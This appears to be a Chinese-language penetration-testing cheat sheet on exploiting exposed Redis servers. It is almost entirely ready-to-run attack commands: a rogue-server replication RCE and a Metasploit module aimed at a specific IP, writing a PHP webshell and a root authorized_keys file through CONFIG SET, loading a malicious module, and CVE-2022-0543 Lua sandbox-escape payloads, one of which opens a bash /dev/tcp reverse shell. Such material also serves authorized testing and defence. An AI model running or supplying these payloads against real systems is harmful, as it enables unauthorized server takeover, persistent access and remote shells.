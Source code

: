 [Redis 未授权访问漏洞(windows 环境](http://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247484286&idx=1&sn=6250d89d18ea635bda32e815fdcc5f6d)
[Redis 未授权计划任务反弹 shell](https://zhuanlan.zhihu.com/p/582582342)
[Redis 的漏洞总结(建议收藏)](https://mp.weixin.qq.com/s/wfncezg7Xe4Z4VP7lMxc7Q)
[Redis 系列漏洞总结](https://mp.weixin.qq.com/s/O5JVZtTifDri8xGJA08AWA)

# nc 连接

```bash
nc redisip 6379
AUTH root123456789
# 即可连接
```

# Redis 主从复制 RCE redis 4.X/5.X

1. by redis-rogue-server.py

```bash
nc -lvvp 6381
python3 redis-rogue-server.py --rhost 192.168.127.129  --rport 6379 --lhost 192.168.127.134 --lport 6381
# reverse shell
# What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 192.168.127.134
Reverse server port: 6381
## [i]nteractive shell 也可以
```

2. by msf

```
sudo msfconsole
use exploit/linux/redis/redis_replication_cmd_exec
set RHOSTS 47.92.135.138
set SRVHOST VPS_IP
set LHOST VPS_IP
exploit
```

# Redis 未授权写入 crontab/authorized_keys/webshell/

写 webshell

```bash
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php phpinfo();?>"
save
```

写 authorized_keys 免密登录

```bash
# ssh-keygen -t rsa 生成私钥
cat 1.txt | redis-cli -h 10.10.10.135 -x set crack
config set dir /root/.ssh
CONFIG SET dbfilename authorized_keys
save

# ssh -i id_rsa root@x.x.xx 进⾏免密登陆
```

# Redis 通过 module_load 加载恶意 so ⽂件 RCE

MODULE LOAD 命令为 redis 加载外部的模块

```bash
module load "/tmp/exp.so"
system.exec "id"
```

# Redis Lua 沙盒绕过命令执⾏ CVE-2022-0543

Debian 以及 Ubuntu 发⾏版的源在打包 Redis 时，不慎在 Lua 沙箱中遗留了⼀个对象 package ，攻击者可以利⽤这
个对象提供的⽅法加载动态链接库 liblua ⾥的函数，进⽽逃逸沙箱执⾏任意命令。

payload:

```bash
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

反弹 shell:

```bash
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash -c \"bash -i >& /dev/tcp/ip/port 0>&1\"", "r"); local res = f:read("*a"); f:close(); return res' 0
```
